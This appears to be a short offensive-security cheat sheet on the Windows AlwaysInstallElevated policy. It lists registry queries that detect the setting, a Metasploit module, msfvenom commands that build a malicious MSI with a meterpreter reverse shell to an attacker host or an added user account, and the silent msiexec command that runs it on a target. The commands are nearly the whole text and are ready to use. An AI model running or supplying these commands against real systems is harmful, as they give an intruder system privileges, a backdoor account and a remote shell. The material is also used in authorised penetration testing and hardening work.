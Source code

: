 # AlwaysInstallElevated
AlwaysInstallElevated policy is allows a regular user to install a Microsoft Windows Installer Package (MSI) with system privileges.

### Detection
Check if REG_DWORD value is 0x1 in 2 registry
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Metasploit
```
use exploit/windows/local/always_install_elevated
```

### Generate .msi file with Msfvenom
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER-IP> LPORT=<ATTACKER-PORT> –f msi > evil.msi
```
```
msfvenom -p windows/adduser USER=username PASS=password -f msi > adduser.msi # Add user
```

### Execute .msi file on command line of target system
```
msiexec /quiet /qn /i evil.msi
```
